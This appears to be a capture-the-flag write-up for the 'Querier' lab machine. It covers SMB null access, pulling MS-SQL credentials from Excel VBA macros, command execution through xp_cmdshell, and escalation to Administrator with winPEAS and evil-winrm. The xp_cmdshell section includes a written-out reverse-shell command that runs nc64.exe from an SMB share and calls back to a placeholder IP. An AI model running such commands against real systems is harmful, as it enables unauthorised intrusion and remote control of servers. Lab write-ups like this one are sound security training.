# Querier

## Gaining Access

Nmap scan:



Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:



Within the Reports directory, I found a .xlsm file.



We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:



We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.



We found find this set of credentials for the database here.



We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.



### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.



With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```



## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.



Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.


